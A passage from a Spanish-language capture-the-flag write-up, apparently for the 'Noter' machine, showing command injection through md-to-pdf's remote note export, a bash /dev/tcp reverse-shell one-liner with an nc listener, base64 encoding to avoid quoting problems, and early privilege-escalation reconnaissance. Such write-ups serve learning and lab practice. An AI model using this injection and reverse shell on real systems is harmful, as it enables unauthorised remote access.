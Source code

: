 En resumen, se usa el módulo `child_process` que nos permite iniciar procesos secundarios y usando uno de sus métodos, en este caso `execSync`, nos permitira ejecutar comandos

> Si queremos ejecutar comandos complejos como una `reverse shell`, por temas de interpretación de simbolos (&) o comillas ("''"), es recomendable primero codificar el comando en `base64`, luego decodificarlo e interpretarlo con una `bash`
{: .prompt-tip}

El proceso es sencillo:

> Una vez creado este archivo, iremos a la sesión del usuario `blue` y como tenemos membresía VIP usaremos la opción **Export Notes** 

> Compartimos un **servicio http** para compartir el archivo (e.g ruby -run -e httpd . -p80)

> Nos pondemos en escucha en el puerto especificado para recibir la shell (e.g nc -lvnp 1234)

> Luego en el apartado **Export directly from cloud** subiremos nuestro _Archivo malicioso_ (e.g http://ip:port/file_name) 

> Al subir el archivo la máquina usará la función **export_note_remote()**, usará la herramienta `md-to-pdf` y con ello ejecutara el comando especificado (reverse shell code)

Especificando como commando un **reverse shell** `'bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1"'` y siguiendo los pasos anteriores, recibiremos una shell como el usuario `svc` y obtenemos la primera flag

```console
svc@noter:~/app/web$ whoami
whoami
svc
svc@noter:~/app/web$ find / -name user.txt 2>/dev/null | xargs ls -l
find / -name user.txt 2>/dev/null | xargs ls -l
-rw-r----- 1 root svc 33 Jul 16 20:13 /home/svc/user.txt
```

> No olvidar hacer un tratamiendo completo de la **TTY** para mayor comodidad y movimiento en el sistema
{: .prompt-warning}

## Privilege Escalation

* * *

Empezamos con un reconocimiento básico del sistema para saber la distribución (Debian, Ubuntu, Fedora) y su versión, la arquitectura (32-bit, 64-bit), en que equipo de la red nos encontramos (máquina víctima, container), que procesos corren por detrás (cron, crontab, jobs), etc

Por ejemplo, listando las conexiones de entrada o salida en el sistema (o puertos abiertos), logramos observar el famoso puerto **3306(mysql)**:

```console
svc@noter:~/app/web$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      1262/python3        
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::46253                :::*                    LISTEN      221229/node         
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```